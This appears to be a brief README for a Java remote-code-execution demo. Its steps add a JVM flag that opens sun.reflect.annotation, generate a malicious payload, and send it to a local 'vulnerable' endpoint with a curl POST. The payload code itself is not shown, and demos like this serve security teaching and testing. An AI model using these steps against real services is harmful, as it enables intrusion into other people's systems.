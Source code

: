 # Remote Code Execution Demo

## How To: Exploit vulnerability to perform RCE 

1. Add JVM flag
```
--add-opens java.base/sun.reflect.annotation=ALL-UNNAMED
```
2. Run application to generate malicious payload
3. Send the payload to the vulnerable endpoint
```
curl -X POST http://localhost:8080/vulnerable --data-binary @payload.bin -H 'Content-Type: application/octet-stream'
```